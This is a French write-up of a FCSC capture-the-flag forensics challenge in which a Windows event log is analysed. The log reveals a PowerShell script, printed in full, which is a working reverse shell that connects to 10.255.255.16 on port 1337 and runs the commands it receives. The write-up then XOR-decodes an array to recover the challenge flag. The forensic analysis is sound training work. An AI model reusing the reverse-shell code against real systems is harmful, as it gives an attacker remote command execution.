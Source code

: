 # Forensics - La Gazette Windows

## Challenge description

![Challenge description](./img/forensics_la_gazette_windows_description.png)

## Résolution

En regardant le fichier, on se rend compte qu'il s'agit d'un fichier de type `Windows Event Log` (extension `.evtx`).

On peut l'ouvrir sous windows, avec l'observateur d'évènements. On voit alors qu'un script powershell a été exécuté. 

```powershell
    Création du texte Scriptblock (1 sur 1) : 
    do {
        Start-Sleep -Seconds 1
        try{
            $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
        } catch {}
    } until ($TCPClient.Connected)
    $NetworkStream = $TCPClient.GetStream()
    $StreamWriter = New-Object IO.StreamWriter($NetworkStream)
    function WriteToStream ($String) {
        [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
        $StreamWriter.Write($String + 'SHELL> ')
        $StreamWriter.Flush()
    }
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
    WriteToStream $s
    while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
        $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
        $Output = try {
                Invoke-Expression $Command 2>&1 | Out-String
            } catch {
                $_ | Out-String
            }
        WriteToStream ($Output)
    }
    $StreamWriter.Close()
```

En lisant le code, on se rend compte qu'il faut récupérer la chaîne de caractères `$s` et la décoder. La chaine `$s` est fabriquée à partir de `$l`. 
Comme c'était un script powershell, on peut tout simplement récupérer `$l` et `$s` avec ce code :

```powershell
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
```

Puis on affiche `$s` :

```powershell	
    PS C:\Users\user\Desktop> $s
    FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}
```